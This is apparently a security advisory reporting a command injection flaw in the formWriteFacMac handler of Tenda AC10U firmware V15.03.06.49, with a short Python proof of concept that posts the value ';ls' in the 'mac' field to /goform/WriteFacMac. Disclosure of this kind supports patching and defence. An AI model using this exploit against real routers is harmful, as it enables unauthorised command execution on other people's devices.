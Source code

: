 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

In Tenda AC10U v1.0 Firmware V15.03.06.49 firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `mac` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.

![image-20240313164524593](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313164524593.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";ls"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313164800839](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313164800839.png)
